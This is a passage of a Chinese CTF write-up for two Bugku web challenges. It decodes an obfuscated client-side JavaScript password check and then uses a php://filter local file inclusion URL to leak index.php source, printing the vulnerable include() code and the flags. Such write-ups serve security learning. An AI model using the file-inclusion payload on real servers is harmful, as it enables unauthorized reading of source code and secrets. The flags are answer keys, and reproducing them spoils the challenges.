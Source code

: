 15. web4 80
	>看看源代码吧  
	>http://120.24.86.145:8002/web4/
	
	解答：

		p1='%66%75%6e%63%74%69%6f%6e%20%63%68%65%63%6b%53%75%62%6d%69%74%28%29%7b%76%61%72%20%61%3d%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%42%79%49%64%28%22%70%61%73%73%77%6f%72%64%22%29%3b%69%66%28%22%75%6e%64%65%66%69%6e%65%64%22%21%3d%74%79%70%65%6f%66%20%61%29%7b%69%66%28%22%36%37%64%37%30%39%62%32%62';
		p2='%61%61%36%34%38%63%66%36%65%38%37%61%37%31%31%34%66%31%22%3d%3d%61%2e%76%61%6c%75%65%29%72%65%74%75%72%6e%21%30%3b%61%6c%65%72%74%28%22%45%72%72%6f%72%22%29%3b%61%2e%66%6f%63%75%73%28%29%3b%72%65%74%75%72%6e%21%31%7d%7d%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%42%79%49%64%28%22%6c%65%76%65%6c%51%75%65%73%74%22%29%2e%6f%6e%73%75%62%6d%69%74%3d%63%68%65%63%6b%53%75%62%6d%69%74%3b';
		unescape(p1) + unescape('%35%34%61%61%32' + p2);
		
		function checkSubmit(){
			var a=document.getElementById("password");
			if("undefined"!=typeof a)
			{
				if("67d709b2b54aa2aa648cf6e87a7114f1"==a.value)
					return!0;
				alert("Error");
				a.focus();
				return!1
			}}
		document.getElementById("levelQuest").onsubmit=checkSubmit;

		KEY{J22JK-HS11}

16. flag在index里 80
	>http://120.24.86.145:8005/post/

	解答：
		
		php文件包含，php://filter
		http://120.24.86.145:8005/post/index.php?file=php://filter/read=convert.base64-encode/resource=index.php
		
		<html>
    	<title>Bugku-ctf</title>
		<?php
			error_reporting(0);
			if(!$_GET[file]){echo '<a href="./index.php?file=show.php">click me? no</a>';}
			$file=$_GET['file'];
			if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
				echo "Oh no!";
				exit();
			}
			include($file); 
		//flag:flag{edulcni_elif_lacol_si_siht}
		?>
		</html>
